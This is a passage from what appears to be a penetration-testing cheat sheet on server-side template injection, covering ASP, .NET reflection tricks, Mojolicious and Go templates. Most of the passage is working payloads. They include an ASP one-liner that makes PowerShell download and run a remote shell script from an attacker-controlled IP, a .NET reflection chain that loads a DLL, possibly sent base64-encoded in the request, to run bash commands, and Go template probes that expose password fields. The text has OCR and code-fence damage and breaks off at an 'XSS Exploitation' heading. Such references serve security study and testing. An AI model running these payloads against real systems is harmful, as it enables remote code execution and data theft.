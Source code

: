 ```
- `<%= response.write(date()) %>` = \<Date>

```xml
<%= CreateObject("Wscript.Shell").exec("powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/shell.ps1')").StdOut.ReadAll() %>
```
```
**More Information**

- [[https://www.w3schools.com/asp/asp_examples.asp|https://www.w3schools.com/asp/asp_examples.asp]]

### .Net Bypassing restrictions

The .NET Reflection mechanisms can be used to bypass blacklisting or classes not being present in the assembly. DLL's can be loaded at runtime with methods and properties accessible from basic objects.

Dll's can be loaded with:

- `{"a".GetType().Assembly.GetType("System.Reflection.Assembly").GetMethod("LoadFile").Invoke(null, "/path/to/System.Diagnostics.Process.dll".Split("?"))}` - from filesystem.
- `{"a".GetType().Assembly.GetType("System.Reflection.Assembly").GetMethod("Load", [typeof(byte[])]).Invoke(null, [Convert.FromBase64String("Base64EncodedDll")])}` - directly from request.

Full command execution:

```
{"a".GetType().Assembly.GetType("System.Reflection.Assembly").GetMethod("LoadFile").Invoke(null, "/path/to/System.Diagnostics.Process.dll".Split("?")).GetType("System.Diagnostics.Process").GetMethods().GetValue(0).Invoke(null, "/bin/bash,-c ""whoami""".Split(","))}
```
```
**More Information**

- [[https://efigo.pl/en/blog/cve-2024-9150/|https://efigo.pl/en/blog/cve-2024-9150/]]

### Mojolicious (Perl)

Even if it's perl it uses tags like ERB in Ruby.

- `<%= 7*7 %> = 49`
- `<%= foobar %> = Error`

```
<%= perl code %>
<% perl code %>
```
```
### SSTI in GO

In Go's template engine, confirmation of its usage can be done with specific payloads:

- `{{ . }}`: Reveals the data structure input. For instance, if an object with a `Password` attribute is passed, `{{ .Password }}` could expose it.
- `{{printf "%s" "ssti" }}`: Expected to display the string "ssti".
- `{{html "ssti"}}`, `{{js "ssti"}}`: These payloads should return "ssti" without appending "html" or "js". Further directives can be explored in the Go documentation [[https://golang.org/pkg/text/template|here]].

![[../../images/image (8).png]]

*[[https://miro.medium.com/v2/resize:fit:1100/format:webp/1*rWpWndkQ7R6FycrgZm4h2A.jpeg|https://miro.medium.com/v2/resize:fit:1100/format:webp/1\*rWpWndkQ7R6FycrgZm4h2A.jpeg]]*


**XSS Exploitation**
```